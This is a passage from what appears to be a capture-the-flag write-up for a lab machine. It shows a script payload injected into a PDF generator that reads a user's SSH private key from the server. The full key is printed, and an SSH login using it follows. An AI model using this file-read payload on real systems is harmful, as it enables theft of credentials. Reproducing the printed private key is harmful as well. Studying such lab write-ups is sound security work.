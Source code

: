     <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

Then we download the PDF file. It contains a SSH private key.

    :::text
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJG8m6UNZyRGj
    7eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0WxtCK0VlQUwxZ6953D16uxl
    RH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd
    /j3xWXHgpaJciHKxeNlr8x6NgbPv4s7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hL
    W1UGx/13fh20cZXA6PK75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7
    hihAbIi73mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+McK
    IrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUItIGcAaz3dTODgD
    O04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJjhPHFI7usIxmgX8Q2/nx3LSUN
    eZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lc
    PzvVGOEGQzkuu4ljFkYz6sZ8GMx6GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmT
    mk3A7jOwke0o8/4FLE2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPl
    SNbc8/ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+SRM/A
    bh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7lskGl3dh4M/2Tgl/g
    YPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+Vo5GVjWTOlfEj74k8hC6GjzWHna0
    pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7mHc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl
    /FOW2AFbkzoNbHT9GpTj5ZfacChBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k
    8J+fVHJl4IjT80uPb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOA
    MYkhsMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCftdBBP0U
    v2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi5bBLnzECgYEAlLiYGz
    P92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlWy1K/LbqIV3C01ruxVBOV7ivUYrRkx
    R/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TNnkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABI
    prhDfKUSbHzLIR4=
    -----END RSA PRIVATE KEY-----

We can then connect as `reader` using ssh and grab the user's flag.

    :::text
    # ssh reader@10.10.10.176
    Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

      System information as of Thu Feb 27 15:39:22 UTC 2020

      System load:  0.22               Processes:            153
      Usage of /:   26.5% of 19.56GB   Users logged in:      1
      Memory usage: 22%                IP address for ens33: 10.10.10.176
      Swap usage:   0%


    * Canonical Livepatch is available for installation.
      - Reduce system reboots and improve kernel security. Activate at:
        https://ubuntu.com/livepatch

    114 packages can be updated.
    0 updates are security updates.
